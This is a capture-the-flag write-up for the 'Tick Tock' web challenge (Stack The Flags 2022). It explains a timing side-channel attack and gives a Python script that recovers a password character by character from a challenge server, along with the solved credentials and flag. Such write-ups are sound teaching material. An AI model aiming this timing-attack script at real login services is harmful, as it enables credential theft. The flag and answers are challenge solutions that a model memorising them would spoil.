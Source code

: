 ```yaml
---
title: Tick Tock
CTF: Stack The Flags
Year: 2022
category: [web]
author: Hal0g3n
date: 8 Dec 2022

hide:
- footer
- toc
---
```


# ticktock
by [Hal0g3n](https://github.com/Hal0g3n)
> Looks like you can login without any extra hints. Just remember to keep track of the time you spend on this challenge. Dont get too carried away!
## Solution
This had 0 solves until the admin dropped their insane hint
![hint.png|center](./assets/hint.png)
<center>🙏 Thank you @bbbb 🙏</center>

Woah! Look at all the `asyncio.sleep`. Wonder if we could exploit that?🤔oh we could, with a side channel attack called timing attack!

# Timing Attack
> "The more something matches, the longer it takes to distinguish"

While we could just randomly submit our passwords and usernames, hoping for RNGesus, we could also try and get more information indirectly. One such info could be the time taken to check string equality (especially with allothose `asyncio.sleep`. 

Let us just take `return` statements as instant, and every check takes 0.01s.

First check is string length. If our string length were correct it would take 0.01s longer (significant when program runs in miliseconds). So by trying every string length, we could see for which string length the website took the longest to respond.

After getting that correct, we use the same idea on each character, starting from the front. If it were right, then the website response would take 0.01s longer than for every other character. Rinse and Repeat, until you got the username and then move on to the password.

**Sample Script (for `pwd`)**
```python
# Answers to find
usr = "0p3nr4leaf"
pwd = "r1g3boj8455871326i3w"

# Imports
import string, requests

i = 0
while i != len(pwd):

	# Keep a list of timings for each character
	result = []

	# For each character
	for c in string.ascii_lowercase + string.digits:

		# Sub it in and check timing
		r = requests.get(f"http://157.245.52.169:31662/flag?username={usr}&password={pwd[:i] + c + pwd[i+1:]}")

		# Add it to timings
		result.append((r.elapsed.total_seconds(), c))

	# Sort by timing
	result.sort()
	
	# Gets the character (slowest character)
	ans = result[-1]
	pwd = pwd[:i] + ans[1] + pwd[i+1:]

	# Slowly print out answer and increment
	print(pwd)
	i += 1
```
At this point each request is taking 2 seconds, a significant amount of time. But alast, we got the username and password. After using the retrieved username and password we get the flag 🚩!

Flag: `STF22{Play_OpenRA_d44149ca5ec9b17d}`